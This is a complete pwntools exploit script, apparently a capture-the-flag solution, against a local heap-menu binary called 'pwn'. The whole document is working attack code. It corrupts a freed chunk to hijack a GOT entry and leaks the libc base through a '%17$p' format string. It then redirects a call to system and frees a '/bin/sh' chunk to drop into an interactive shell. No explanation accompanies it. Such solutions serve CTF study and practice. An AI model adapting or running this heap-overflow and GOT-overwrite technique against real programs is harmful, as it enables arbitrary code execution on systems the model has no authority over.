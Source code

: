 **完整EXP**

```
#!/usr/bin/env python
from pwn import *
from time import sleep
context(arch='amd64', os='linux', endian='little', log_level = 'debug')

elf = ELF('pwn')
libc = elf.libc

def show():
	p.sendlineafter(':', '1')

def add(length, content):
	p.sendlineafter(':', '2')
	p.sendlineafter(':', str(length))
	p.sendafter(':', content)
	sleep(0.01)

def edit(idx, length, content):
	p.sendlineafter(':', '3')
	p.sendlineafter(':', str(idx))
	p.sendlineafter(':', str(length))
	p.sendafter(':', content)
	sleep(0.01)

def delete(idx):
	p.sendlineafter(':', '4')
	p.sendlineafter(':', str(idx))

p = process(elf.path)

add(0x50, '000000')
add(0x50, '111111')
add(0x50, '.%17$p.')
delete(1)
edit(0, 0x100, flat('0' * 0x50, '00000000', 0x61, 0x601ffa))
add(0x50, 'xxxxxxxx')
add(0x50, flat('\0' * 14, flat(elf.sym['printf'])[:6]))
delete(2)
p.recvuntil('.')
libc.address = int(p.recvuntil('.', drop = True), 16) - 0x20830
print('libc @ {:0x}'.format(libc.address))
assert libc.address & 0xfff == 0
edit(3, 0x50, flat('\0' * 14, flat(libc.sym['system'])[:6]))
add(0x10, "/bin/sh\0")
delete(2)
p.interactive()
```


